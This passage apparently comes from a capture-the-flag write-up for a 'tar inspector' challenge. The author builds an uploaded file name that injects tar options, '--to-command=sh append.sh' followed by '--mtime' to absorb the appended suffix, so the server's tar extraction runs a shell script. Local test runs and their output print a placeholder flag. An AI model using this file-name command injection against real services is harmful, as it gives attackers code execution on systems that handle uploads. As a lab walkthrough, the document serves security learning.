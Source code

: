 I tried uploading it at this point and learned that if any errors happened, it wouldn't go through the tar inspector.

The error is happening because it's trying to call on a file that doesn't exist (the string that gets appended)

Let's try matching the .tar extension and see if it will run even with an invalid file. I'll just add * before the .tar at the end

`exploit* --to-command=sh append.sh *.tar`

```
└─▪ python3 function.py exploit\*\ --to-command\=sh\ append.sh\ \*.tar 
File changed to new filename

tar -xvf exploit* --to-command=sh append.sh *__88a8c2.tar
append.sh
utctf{flag}
tar: Pattern matching characters used in file names
tar: Use --wildcards to enable pattern matching, or --no-wildcards to suppress this warning
tar: exploit* --to-command=sh append.sh *__88a8c2.tar: Not found in archive
tar: Exiting with failure status due to previous errors
File change back to old name
```

Okay it doesn't like pattern matching. It's also not finding the tar file name because it isn't in the archive, it's the archive's name.


I tried archiving the tar file in itself so it could be found, but tar doesn't let you do that.


Back to the tar manual to look for another tar option that will eat the ending input of `__random_string.tar`!


&nbsp;


![mtime](/assets/tarinspector/mtime.png)

Perfect. Since the format is abitrary, I assume I can put whatever the heck I want and it'll work without an error.
I'll change my filename to ```exploit* --to-command=sh append.sh --mtime=*.tar``` and give it a run.

```
└─▪ python3 function.py exploit\*\ --to-command\=sh\ append.sh\ --mtime\=\*.tar 
File changed to new filename

tar -xvf exploit* --to-command=sh append.sh --mtime=*__1ee087.tar
tar: Substituting -9223372036854775807 for unknown date format ‘*__1ee087.tar’
append.sh
utctf{flag}
File change back to old name
```
